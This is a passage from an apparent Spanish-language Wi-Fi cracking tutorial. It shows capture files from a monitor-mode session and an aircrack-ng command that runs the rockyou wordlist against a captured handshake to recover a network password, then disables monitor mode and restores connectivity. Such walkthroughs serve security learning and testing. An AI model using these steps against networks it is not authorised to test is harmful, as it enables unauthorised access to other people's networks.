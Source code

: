 Ahora solo hacemos un `ctrl+c` y hay tenemos los archivos

```bash
❯ ls
 info.txt   xd-01.cap   xd-01.csv   xd-01.kismet.csv   xd-01.kismet.netxml   xd-01.log.csv
```

Ahora vamos a hacer el **crackeo** pasandole la captura 

```bash
❯ aircrack-ng -w /usr/share/wordlists/rockyou.txt xd-01.cap
```

Y hay tenemos la contraseña de la red wifi 

![](/assets/images/try-writeup-wifi01/zi3.png)

Ahora quitamos el modo monitor 

```bash
❯ airmon-ng stop wlan0mon
```

Para tener conectividad a wifi otra vez solo has los siguiente, el ping a `google.com` solo es para comprobar que recuperamos la conexion a internet

```bash
❯ systemctl restart NetworkManager
❯ systemctl restart wpa_supplicant
❯ ping -c 1 google.com
PING google.com (172.217.4.174) 56(84) bytes of data.
64 bytes from qro04s04-in-f14.1e100.net (172.217.4.174): icmp_seq=1 ttl=128 time=12.2 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 12.247/12.247/12.247/0.000 ms
```
